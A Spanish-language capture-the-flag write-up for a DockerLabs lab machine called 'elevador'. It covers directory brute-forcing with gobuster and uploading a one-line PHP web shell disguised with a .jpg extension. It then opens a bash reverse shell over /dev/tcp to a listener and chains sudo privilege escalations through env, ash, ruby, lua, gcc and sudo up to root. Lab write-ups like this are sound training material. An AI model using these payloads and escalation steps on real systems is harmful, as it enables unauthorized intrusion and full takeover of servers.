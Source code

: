 nmap:  80

![image](https://github.com/user-attachments/assets/206a9c1a-9a66-4136-b0f9-050aa3a76ad0)


---
dentro de la pagina podemos ver que nos da un mensaje al abrir el ascensor:

![image](https://github.com/user-attachments/assets/43924d93-9367-4f22-9921-583d71be6e11)

![image](https://github.com/user-attachments/assets/7e847733-9588-4015-94c3-874fb076e3e1)

al hacer una ataque de fuerza bruta a los directorios  nos mostrara un "themes",

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k

![image](https://github.com/user-attachments/assets/6b57711b-3b7a-4c5a-9ec9-8278ccd4ea80)


ahora si hacemos otra vez un gobuster pero agregando el "themes" 

      gobuster dir -u http://172.17.0.2/themes -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k


y nos dará algunos importantes

![image](https://github.com/user-attachments/assets/3582ef9d-7e61-442d-80d0-9124e65d5e37)


si ingresamos al primero o sea al uploads nos mandara a una subida de archivos

![image](https://github.com/user-attachments/assets/a369a585-4f64-44ec-aea7-50398bcbd6e1)


como también me dio: archivo.html nos vamos ahí y vemos que podemos subir archivos pero solo archivos JPG

![image](https://github.com/user-attachments/assets/48ab9e59-7a3a-4580-a1df-2d9ba76fd769)


como solo deja subir archivos "jpg" modificamos un archivo 
> nano shell.php.jpg

dentro tendrá este código:

    - <?php system($_GET['cmd']); ?>

vemos que se subió

![image](https://github.com/user-attachments/assets/1e4b7b39-2209-4d3e-97da-5376f04cf198)

 presionamos el archivo que nos muestra y veremos que no hay nada pero en la URL la modificamos para que quede así:
 
   > 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=whoami

![image](https://github.com/user-attachments/assets/22fedb8d-23f2-4bda-804c-dccda91b64da)

nos mostrara "www-data" o sea que la vulnerabilidad esta, así que modificamos la terminal con una bash y colocamos el terminal en escucha
dejamos la terminal asi:

> 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/443%200%3E%261%22

![image](https://github.com/user-attachments/assets/aaf0c7df-4b93-4a68-8979-148e56b1defe)


y ahora dentro si hacemos un "sudo -l" vemos que podemos escalar por "env"

![image](https://github.com/user-attachments/assets/bd7d442b-bb52-466c-b636-4a6d759de53d)

la buscamos: https://gtfobins.github.io/gtfobins/env/

como se que hay otros usuarios pobre y funciono el escalado con daphne:
> sudo -u daphne /usr/bin/env /bin/sh
![[usuario1.png]]

y somos el usuario daphne

al hacer sudo -l da: "ash" la buscamos: https://gtfobins.github.io/gtfobins/ash/

ahora lanzamos asi:
> sudo -u vilma /usr/bin/ash
![[dockerlabs/facil/elevador/usuario2.png]]

y somos vilma

ahora al hacer sudo -l da que es ruby buscamos donde mismo y lanzamos asi:
> sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
![[dockerlabs/facil/elevador/usuario3.png]]

ahora somos shaggy y entonces ahora buscamos como escalar y aparece "lua"

lanzamos el comando así:
> sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'

![[usuario4.png]]

somos fred

podemos escalar con gcc y donde mismo buscamos y lanzamos el comando:
> sudo -u scooby /usr/bin/gcc  -wrapper /bin/sh,-s .

![[usuario5.png]]

somos scooby

ahora al hacer sudo -l podemos  ver que se escala por "sudo", modifico  el codigo para que se vea de esta forma:
> sudo -u root /usr/bin/sudo /bin/bash

![[dockerlabs/facil/elevador/root.png]]

y somos root! 

